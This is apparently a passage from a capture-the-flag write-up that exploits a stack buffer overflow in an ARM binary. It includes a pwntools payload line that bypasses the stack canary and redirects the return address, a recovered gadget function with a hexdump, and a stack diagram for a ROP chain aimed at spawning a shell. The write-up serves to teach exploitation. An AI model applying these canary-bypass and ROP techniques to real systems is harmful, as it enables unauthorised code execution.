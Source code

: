 Since the only space left between the `buf` and the saved reg is the one-word space at `sp + 0x24`, and that is the only space that can be used to prevent BOF exploit. So it must be the canary.

So I try by modifying the return address to `printf` in `gift`:

```python
conn.sendline(b"a" * LEN + p32(canary) + b'a' * 12 + p32(gift_addr + printf_binaddr - gift_binaddr))
```

And get the ouput:

```c
// void gift(void) {
//     printf("[ ] ...look at here");
//     execve("/bin/ls\0", 0, 0);

//     __asm__ __volatile__("pop {r1, r2, r3}	\n\t"
//                          "pop {r0, r4, r5, pc}	\n\t"
//                          "pop {r0, r1, r2, pc}	\n\t"
//                          "sub sp, sp, #0x10  \n\t"
//                          "pop {pc} \n\t");

//     return;
// }
    00000030  e1 a2 02 0d  0a 0d 5b 20  5d 20 2e 2e  2e 6c 6f 6f  │····│··[ │] ..│.loo│
    00000040  6b 20 61 74  20 68 65 72  65 5b 45 52  52 5d 4e 6f  │k at│ her│e[ER│R]No│
    00000050  20 73 75 63  68 20 66 69  6c 65 20 6f  72 20 64 69  │ suc│h fi│le o│r di│
    00000060  72 65 63 74  6f 72 79 3a  20 2f 62 69  6e 2f 6c 73  │rect│ory:│ /bi│n/ls│
    00000070  0d 0d 0a 5b  45 52 52 5d  4f 73 56 6d  50 61 67 65  │···[│ERR]│OsVm│Page│
```

This is just what we want.

### Stage 2: "/bin/shell"

Fisrt try finding "shell" in binary using `binary.search(b'shell')` but find nothing. Then I think we can use the payload to have the "/bin/shell" string.

```
High Addr
        hear 
 /                \               subsp
+------------------+       sp--> +----+
|  old lr(subsq)   |             |    |
+------------------+             +----+
|      old fp      |             |    |                               pop3
+------------------+ <--fp       +----+                          +------------+
|      old sl      |             |    |           subsp          |     pc     |
+------------------+             +----+ <--sp--> +----+          +------------+
|      old r4      |             | pc |          |    |          |     r2     |
+------------------+ <--sp+0x28  +----+          +----+          +------------+
|      canary      |                             |    |          |     r1     |
+------------------+                             +----+          +------------+
|                  |                             |    |          | r0(&binsh) |
|    buf[0:0x20]   |                             +----+ <--sp--> +------------+
|                  |                             | pc |
+------------------+ <--sp + 0x4                 +----+ buf[0x18]
 \                /
Low Addr
```
